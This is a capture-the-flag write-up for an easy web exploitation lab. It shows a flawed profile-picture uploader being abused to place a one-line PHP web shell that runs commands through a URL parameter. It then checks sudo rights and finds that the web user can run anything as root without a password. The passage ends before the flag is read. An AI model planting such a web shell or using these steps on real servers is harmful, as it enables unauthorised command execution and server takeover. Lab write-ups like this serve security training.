


## Overview

- **Platform:** CyLab Security Academy
- **Category:** Web Exploitation
- **Difficulty:** Easy

### Description
A developer has added profile picture upload functionality to a website. However, the implementation is flawed, and it presents an opportunity for you. Your mission, should you choose to accept it, is to navigate to the provided web page and locate the file upload area. Your ultimate goal is to find the hidden flag located in the /root directory. You can access the web application here!

## Solution

### Exploring the upload functionality
The site presents a simple file uploader. I uploaded a file called ``test.txt`` containing ``test``. Despite being a "profile picture" uploader, it accepted it and revealed where the uploaded files are stored:
```text
The file test.txt has been uploaded Path: uploads/test.txt
```
Visiting ``/uploads/test.txt`` confirms that the file is reachable, though the directory ``/uploads/`` itself is not listable. Wappalyzer identified the backend as PHP.

### Uploading a web shell
With seemingly no restrictions on file type or content, I uploaded a simple PHP web shell saved as ``web.php``. The file only contains the following line:
```text
<?php system($_GET['cmd']); ?>
```


It runs whatever command you put in the ``?cmd=`` parameter and prints the output. It gives us command execution through the browser, instead of a reverse shell.

After uploading the webshell, I can now visit ``/uploads/web.php?cmd=<command>`` to execute arbitrary commands. Below is the result of running ``whoami``.


### Foothold and privilege escalation
First, I identified the current user by running ``id``.
```text
uid=33(www-data) gid=33(www-data) groups=33(www-data) 
```
We are ``www-data``, but the flag is located in ``/root`` - which we don't currently have access to. I checked sudo rights with ``sudo -l``:
```text
Matching Defaults entries for www-data on challenge: env_reset, mail_badpass, 
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty 
User www-data may run the following commands on challenge: (ALL) NOPASSWD: ALL 
```

Great! This means that ``www-data`` can run any command as any user, including root, without providing a password. The next step is to list the /root directory and read the flag.



